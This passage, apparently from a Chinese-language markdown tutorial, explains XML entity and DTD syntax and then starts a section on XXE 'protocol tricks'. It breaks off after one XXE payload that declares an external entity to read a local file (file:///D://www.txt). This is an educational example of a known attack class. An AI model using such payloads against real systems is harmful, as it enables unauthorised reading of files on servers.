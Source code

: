 **注意：** 一个实体由三部分构成：一个和号 (&)、一个实体名称、 以及一个分号 (;)。

#### 外部实体声明

```xml-dtd
<!ENTITY entity-name SYSTEM "URI/URL">
<!ENTITY 实体名称 SYSTEM "URI">
```

实例

```xml
DTD 实例:
<!ENTITY writer SYSTEM "http://www.runoob.com/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.runoob.com/entities.dtd">

XML example:
<author>&writer;&copyright;</author>
```

#### 参数实体声明

```xml-dtd
<!ENTITY %实体名称 "实体的值">
<!ENTITY %实体名称 SYSTEM "URI">
```

## 各种协议玩法

![各种协议玩法](./各种协议玩法.png)

### 有回显

###### 读文件

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///D://www.txt">
]>
<x>&xxe;</x>
```
